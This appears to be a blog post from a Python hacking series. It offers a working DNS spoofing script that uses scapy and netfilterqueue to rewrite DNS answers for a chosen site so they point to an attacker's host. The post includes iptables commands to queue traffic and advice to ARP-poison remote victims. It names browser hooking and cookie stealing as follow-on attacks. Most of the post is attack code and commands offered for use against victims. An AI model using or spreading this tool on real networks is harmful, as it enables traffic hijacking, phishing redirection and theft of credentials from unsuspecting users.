 ```yaml
---
title: DNS Spoofer
date: 2021-06-28 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Poison DNS responses.
---
```


<p align="left">
 <img src="https://external-preview.redd.it/SRVKUe2MGSCBVB56FwBzwFZE6uxGaNZ_Vknx5vioVAw.png?auto=webp&s=b21e5b8bde6eed10e5ef54a188ebf0840e0bf8b4">
</p>



## This is a python script that poisons all DNS responses flowing though the host machine to successfully spoof a target site and redirect the victim to a malicious site of chosing.

- We use IPTABLES to build a queue to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -

> `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic

> `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic

> `iptables --flush` --> flush rules after completion

- We filter the traffic like an intercepting proxy would to filter and modify DNS responses for the target site to redirect the victim to a malicious site of the attackers choosing. Many avenues of attacks can be performed like browser hooking, cookie stealing etc.

- To spoof a remote victim replace the 2nd iptables command, ARP Poison the victim to redirect all DNS traffic through our host machine and proceed as above:

> `iptables -I FORWARD -j NFQUEUE --queue-num 0` -->  Intercept Queue for inbound traffic

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect DNS requests to this Site/Host")
    parser.add_argument("-s", "--site", dest="site", help="Target Site to DNS Spoof")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid Host,  use --help for info.")
    if not options.site:
        # code to handle error
        parser.error("\n[-] Please specify a valid site to spoof,  use --help for info.")
    return options

# Use get_payload() method to view fields for netfilterqueue objects
def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # DNSQR - DNS request / DNSRR - DNS request
    if scapy_packet.haslayer(scapy.DNSRR):
        # Filter Question Record for site name
        qname = scapy_packet[scapy.DNSQR].qname
        if options.site in qname:
            print("[+] Spoofing target: " + options.site)
            # Create DNS response
            answer = scapy.DNSRR(rrname=qname, rdata=options.host)
            scapy_packet[scapy.DNS].an = answer
            # Setting no of DNS responses
            scapy_packet[scapy.DNS].ancount = 1
            # Remove these fields and let Scapy recalculate them automatically
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len
            # Copying modified attributes to the original packet
            packet.set_payload(str(scapy_packet))
    # Forward packet to target
    packet.accept()

def iptables_set(queue_num):
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "-I", "INPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    subprocess.call(["sudo", "iptables", "-I", "OUTPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    print("[!] IPTABLE rules set succesfully! \n")

def iptables_reset():
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "--flush"])
    print("[!] IPTABLE rules reset succesfully! \n")


print("""
___  _  _ ____    ____ ___  ____ ____ ____ ____ ____ 
|  \ |\ | [__     [__  |__] |  | |  | |___ |___ |__/ 
|__/ | \| ___]    ___] |    |__| |__| |    |___ |  \ 
                                                                                                                                                                                           
      """)

try:
    options = get_arguments()
    print("[-] [NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    queue_num = input("[!] Setup IPTABLES rules with a queue number.\n - Enter a queue number: ")
    print("\n\n******************************************************************************************")
    print("[+] Spoofing all DNS traffic flowing through this machine using configured IPTABLE queues.")
    print("******************************************************************************************\n\n")
    # Creating instance of netfilterqueue obj
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(queue_num, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n")
    iptables_reset()
```

### OUTPUT:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/arpspoof1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof1.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof2.png)

